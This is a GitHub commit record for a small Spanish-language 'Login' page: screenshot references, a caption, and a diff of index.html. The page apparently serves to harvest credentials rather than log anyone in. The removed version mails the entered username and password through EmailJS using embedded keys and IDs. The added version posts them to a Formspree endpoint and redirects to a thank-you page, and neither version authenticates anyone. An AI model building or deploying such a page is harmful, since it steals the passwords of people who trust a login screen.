

Before and after one commit to DarkraiNEET/login-form, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-867 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,45 +1,62 @@
 <!DOCTYPE html>
 <html lang="es">
 <head>
-  <meta charset="UTF-8">
+  <meta charset="UTF-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
   <title>Login</title>
-  <script src="https://cdn.jsdelivr.net/npm/emailjs-com@2/dist/email.min.js"></script>
-  <script>
-    (function(){
-      emailjs.init("d8q3sBWEctV-MobNA"); // Tu Public Key
-    })();
-
-    function enviarCorreo(event) {
-      event.preventDefault(); // Evita que el formulario recargue la página
-
-      const usuario = document.getElementById("usuario").value;
-      const contrasena = document.getElementById("contrasena").value;
-
-      emailjs.send("service_htfde5y", "template_5l95084", {
-        usuario: usuario,
-        contrasena: contrasena
-      })
-      .then(function(response) {
-        console.log("Correo enviado con éxito", response.status, response.text);
-        // Redirige al completar envío
-        window.location.href = "gracias.html";
-      }, function(error) {
-        console.error("Error al enviar el correo", error);
-        alert("Hubo un error al enviar los datos.");
-      });
+  <style>
+    body {
+      font-family: Arial, sans-serif;
+      background: #f0f0f0;
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      height: 100vh;
     }
-  </script>
+    form {
+      background: white;
+      padding: 20px;
+      border-radius: 10px;
+      box-shadow: 0 4px 12px rgba(0, 0, 0, 0.1);
+      width: 300px;
+    }
+    h2 {
+      text-align: center;
+      margin-bottom: 20px;
+    }
+    input {
+      width: 100%;
+      padding: 10px;
+      margin: 8px 0;
+      border: 1px solid #ccc;
+      border-radius: 5px;
+    }
+    button {
+      width: 100%;
+      padding: 10px;
+      background-color: #2d89ef;
+      color: white;
+      border: none;
+      border-radius: 5px;
+      cursor: pointer;
+    }
+    button:hover {
+      background-color: #1b6cd4;
+    }
+  </style>
 </head>
 <body>
-  <h2>Iniciar Sesión</h2>
-  <form onsubmit="enviarCorreo(event)">
-    <label for="usuario">Usuario:</label><br>
-    <input type="text" id="usuario" name="usuario" required><br><br>
 
-    <label for="contrasena">Contraseña:</label><br>
-    <input type="password" id="contrasena" name="contrasena" required><br><br>
+  <form action="https://formspree.io/f/xanjybdv" method="POST">
+    <h2>Iniciar Sesión</h2>
+    <input type="text" name="usuario" placeholder="Usuario" required>
+    <input type="password" name="contrasena" placeholder="Contraseña" required>
+
+    <!-- Redirección automática después del envío -->
+    <input type="hidden" name="_next" value="https://arkraineet.github.io/gracias.html">
 
     <button type="submit">Entrar</button>
   </form>
+
 </body>
 </html>
```
